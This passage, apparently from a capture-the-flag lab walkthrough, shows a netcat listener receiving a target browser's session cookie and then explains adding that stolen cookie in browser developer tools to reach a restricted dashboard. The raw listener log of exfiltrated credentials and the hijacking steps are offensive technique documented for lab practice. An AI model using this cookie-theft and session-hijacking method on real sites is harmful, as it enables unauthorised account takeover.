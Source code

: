 To capture the request being sent to port 1234, we use netcat.

```
nc -lnvtp 1234

listening on [any] 1234 ...
connect to [10.10.14.124] from (UNKNOWN) [10.129.189.64] 33942

GET /?session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zu26Vg.RFsVfRjFbg5CykH8zdKH9fGez7M HTTP/1.1
Host: 10.10.14.124:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:3000
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

After waiting a few seconds, we receive the request with a session cookie `session`.

Now we can incorporate this cookie into our browser and attempt to access a path that was previously restricted, such as the `dashboard` we found earlier.

To do this, we open the developer panel with `F12`, go to the "Storage" tab in Firefox or "Application" in Chrome, open "Cookies," and add the cookie named `session`.
